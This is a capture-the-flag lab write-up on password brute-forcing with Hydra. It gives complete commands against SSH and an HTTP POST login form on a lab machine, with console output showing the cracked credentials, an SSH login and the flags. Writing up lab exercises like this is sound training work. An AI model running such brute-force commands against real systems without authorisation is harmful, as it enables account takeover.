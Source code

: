 # Hydra Commands

The options we pass into Hydra depends on which service (protocol) we're attacking. For example if we wanted to bruteforce FTP with the username being user and a password list being passlist.txt, we'd use the following command:

```hydra -l user -P passlist.txt ftp://192.168.0.1```

For the purpose of this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method).
## SSH

```hydra -l <username> -P <full path to pass> <ip> -t 4 ssh```
[-h](https://i.imgur.com/D71vkKM.png)

```console
bibo318@parrot:~$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.39.3 -t 4 ssh
Hydra v9.1-dev (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-03 12:51:58
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.39.3:22/
[22][ssh] host: 10.10.39.3   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-03 12:52:51
bibo318@parrot:~$ ssh molly@10.10.39.3
The authenticity of host '10.10.39.3 (10.10.39.3)' can't be established.
ECDSA key fingerprint is SHA256:CvZ/M3lLX1Nv/BtNNW9Cb+JYa2z85ldNGQdNp0HwQ9U.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.39.3' (ECDSA) to the list of known hosts.
molly@10.10.39.3's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-1092-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
32 updates are security updates.


Last login: Tue Dec 17 14:37:49 2019 from 10.8.11.98
molly@ip-10-10-39-3:~$ ls
flag2.txt
molly@ip-10-10-39-3:~$ cat flag2.txt 
THM{c8eeb0468febbadea859baeb33b2541b}
```
flag = ```THM{c8eeb0468febbadea859baeb33b2541b}```


## Post Web Form

We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, of simply view the source code.

Below is an example Hydra command to brute force a POST login form:

```hydra -l  -P  <ip> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V```

- [-h](https://i.imgur.com/vC3ZU4E.png)
- [check this to understand how to use it](https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/)



```console
bibo318@parrot:~$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.39.3 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect."
Hydra v9.1-dev (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-03 13:09:26
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.39.3:80/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect.
[80][http-post-form] host: 10.10.39.3   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-03 13:09:29
```
```html
<body>

    <div class="jumbotron text-center">
      <h1>THM{2673a7dd116de68e85c48ec0b1f2612e}</h1>
    </div>

    <script src="/js/jquery.slim.min.js"></script>
    <script src="/js/popper.min.js"></script>
    <script src="/js/bootstrap.min.js"></script>
</body>
```

flag = ```THM{2673a7dd116de68e85c48ec0b1f2612e}```